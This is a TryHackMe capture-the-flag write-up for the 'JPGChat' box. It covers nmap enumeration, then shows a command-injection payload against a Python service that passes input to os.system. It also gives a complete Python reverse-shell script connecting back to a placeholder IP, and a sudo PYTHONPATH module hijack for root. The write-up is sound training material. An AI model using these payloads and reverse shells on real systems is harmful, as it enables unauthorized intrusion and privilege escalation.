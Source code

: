 # JPGChat TryHackMe Writeup


![](images/BoxImage.png)


## __First Stage : Enumeration__


So starting with nmap. 

```
# Nmap 7.91 scan initiated Mon Mar  1 15:02:16 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.250.123
Nmap scan report for 10.10.250.123
Host is up, received conn-refused (0.15s latency).
Scanned at 2021-03-01 15:02:17 IST for 585s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqRxJhw/1rrvXuEkXF+agfTYMZrCisS01Z9EWAv8j6Cxjd00jBeaTGD/OsyuWUGwIqC0duALIIccwQfG2DjyrJCIPYyXyRiTbTSbqe07wX6qnnxV4xBmKdu8SxVlPKqVN36gQtbHWQqk9M45sej0M3Qz2q5ucrQVgWsjxYflYI1GZg7DSuWbI9/GNJPugt96uxupK0pJiJXNG26sM+w0BdF/DHlWFxG0Z+2CMqSlNt4EA2hlgBWKzGxvKbznJsapdtrAvKxBF6WOfz/FdLMQa7f28UOSs2NnUDrpz8Xhdqz2fj8RiV+gnywm8rkIzT8FOcMTGfsvOHoR8lVFvp5mj
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2CCqg8ac3eDsePDO27TM9OweWbaqytzrMyj+RbwDCHaAmfvhbA0CqTGdTIBAsVG6ect+OlqwgOvmTewS9ihB8=
|   256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIXcEOgRyLk02uwr8mYrmAmFsUGPSUw1MHEDeH5qmcxv
3000/tcp open  tcpwrapped syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  1 15:12:03 2021 -- 1 IP address (1 host up) scanned in 586.24 seconds
```

Hence we can see the open ports are:

* 22
* 3000

So if we visit port 3000.



![](images/port.png)


## __Second Stage : Initial Foothold__



Hence I searched github for **JPGChat**.


![](images/gitsearch.png)


In that repo I found **jpchat.py** .

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

In the report_form method we can see that there is "os.system" which takes executes a bash command for saving the name and report . In that **%s** is where we will inject our command for reverse shell.


So inorder to prevent our command being echoed into the text file , we can use 


> '  payload ; #

the payload is your reverse shell command.


![](images/exploit.png)


![](images/usershell.png)



## __Third Stage : User to Root__


So when I tried **sudo -l** I got this.


![](images/perms.png)



Hence If we open test_module.py we can see the following.

```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```
Hence we need to create a python file called compare.py which will contain our python reverse shell , and then set the python path for the program and we get shell.


So create a file called **compare.py** in your home directory and paste this python code.

```python
import socket,subprocess,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<your-ip>",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash") 
```

And then run this command

> sudo PYTHONPATH=/home/wes/ /usr/bin/python3 /opt/development/test_module.py


And we get a shell.


![](images/exploit2.png)

![](images/root.png)


